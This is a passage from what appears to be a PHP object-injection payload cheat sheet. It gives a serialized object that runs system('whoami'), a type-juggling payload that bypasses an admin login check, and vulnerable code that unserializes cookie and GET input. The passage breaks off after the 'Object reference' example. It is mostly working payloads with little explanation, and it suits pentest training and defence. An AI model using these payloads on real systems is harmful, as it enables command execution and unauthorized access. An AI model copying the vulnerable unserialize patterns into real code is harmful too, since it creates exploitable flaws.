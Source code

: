 Craft a payload using existing code inside the application.

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

## Authentication bypass

### Type juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true.

### Object reference

Vulnerable code:

```php
<?php
class Object
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
